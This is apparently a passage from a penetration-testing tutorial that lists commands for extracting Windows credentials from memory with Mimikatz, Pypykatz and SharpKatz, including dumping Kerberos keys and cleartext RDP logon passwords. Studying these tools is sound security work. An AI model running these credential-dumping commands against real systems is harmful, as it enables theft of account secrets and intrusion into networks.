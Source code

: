We will use [Mimikatz](https://github.com/gentilkiwi/mimikatz), Pypykatz, and [Sharpkatz](https://github.com/b4rtik/SharpKatz).

**Using Mimikatz**

We can use the below mentioned [Mimikatz](https://github.com/gentilkiwi/mimikatz) commands for extracting the credentials.

```
privilege::debug
sekurlsa::ekeys

```

![](https://static.wixstatic.com/media/8b80b6_96e97ce993cd4c519e9ec710681b3002~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

Extract Credentials using Mimikatz

[Mimikatz](https://github.com/gentilkiwi/mimikatz) also contains an additional terminal service module that can help us to extract the credentials in cleartext from an RDP logon.

```
privilege::debug
ts::logonpasswords

```

![](https://static.wixstatic.com/media/8b80b6_4fc32f7b998d43f2afc94f368e74b2be~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

Extract Credentials using Mimikatz

**Using Pypykatz**

We can use the below mentioned [Pypykatz](https://github.com/skelsec/pypykatz) commands for extracting the credentials.

```
pypykatz.exe live lsa

```

![](https://static.wixstatic.com/media/8b80b6_e7e88dc4901f495099a6a170a0bfcdd7~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

Extract Credentials using Pypykatz

**Using Sharpkatz**

We can use the below mentioned [Sharpkatz](https://github.com/b4rtik/SharpKatz) commands for extracting the credentials.

```
SharpKatz.exe --Command ekeys

```

![](https://static.wixstatic.com/media/8b80b6_7409675687dc4dbe9e15da0db0ab337b~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

Extract Credentials using Sharpkatz
